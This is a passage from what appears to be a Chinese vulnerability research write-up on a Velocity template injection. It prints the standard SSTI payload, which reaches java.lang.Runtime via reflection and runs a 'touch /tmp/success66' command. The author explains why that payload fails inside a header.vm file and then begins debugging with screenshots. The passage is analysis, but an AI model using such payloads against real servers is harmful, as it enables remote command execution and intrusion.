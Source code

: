### 3、为什么常规的 payload 不行

```bash
#set($x=$i18n.getClass())
    #set($rt=$x.class.forName('java.lang.Runtime'))
    #set($chr=$x.class.forName('java.lang.Character'))
    #set($str=$x.class.forName('java.lang.String'))
    #set($ex=$rt.getRuntime().exec('touch /tmp/success66'))   
    $ex.waitFor()
```

这个是 velocity 模版注入的常规 payload，但是如果我们把他放到 header.vm 文件当中去，可以发现无法触发这个 payload。然后我们去邮件看看

[![](assets/1708149766-04958da4e3d1137c5f093a33e149de73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515173010-9d8774d6-d431-1.png)

直接把断点下在这两行，然后顺着堆栈往上找：

[![](assets/1708149766-ddd66e86febe1205774c167a99a6c560.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515173028-a8763af8-d431-1.png)
